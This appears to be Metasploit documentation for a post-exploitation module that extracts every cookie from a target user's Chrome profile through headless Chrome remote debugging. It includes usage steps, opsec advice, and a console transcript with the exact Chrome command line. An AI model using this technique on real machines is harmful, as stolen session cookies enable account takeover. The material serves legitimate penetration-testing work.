 ## Gather Chrome Cookies

Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/) to read all cookies from the Default Chrome profile of the user.

## Opsec

This writes to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `TEMP_STORAGE_DIR`.

## Vulnerable Application

This technique works on Chrome 59 or later on all operating systems. Note that this module does not yet support Windows, only Linux and macOS.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options


  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **TEMP_STORAGE_DIR**

  Directory used to write temporary files.

  Only one file is written, with a random 10-15 character alphanumeric filename. This file is html to be read by Chrome, and is deleted after use.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Linux (or OS X)

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies 
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   TEMP_STORAGE_DIR       /tmp             no        Where to write the html used to steal cookies temporarily

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>
msf post(multi/gather/chrome_cookies) > run

[*] Activated Chrome's Remote Debugging via google-chrome --headless --disable-web-security --disable-plugins --user-data-dir="/home/<username>/.config/google-chrome/" --remote-debugging-port=9222 /tmp/qj9ADWM6Xqh
[+] 1473 Chrome Cookies stored in /home/<local_username>/.msf4/loot/20181209094655_default_127.0.0.1_chrome.gather.co_585357.txt
[*] Post module execution completed
```


## Future features

### Windows support
This technique works on Windows as well, this module just doesn't implement the Windows-specific functionality.

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.


